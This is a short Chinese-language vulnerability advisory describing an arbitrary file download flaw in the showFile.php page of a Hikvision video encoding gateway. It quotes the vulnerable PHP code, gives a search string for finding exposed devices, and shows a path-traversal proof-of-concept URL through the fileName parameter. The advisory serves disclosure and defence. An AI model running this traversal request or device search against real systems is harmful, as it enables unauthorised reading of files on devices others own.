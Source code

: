 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面

![image-20220519174129368](./images/202205191743965.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

![image-20220519174337483](./images/202205191743535.png)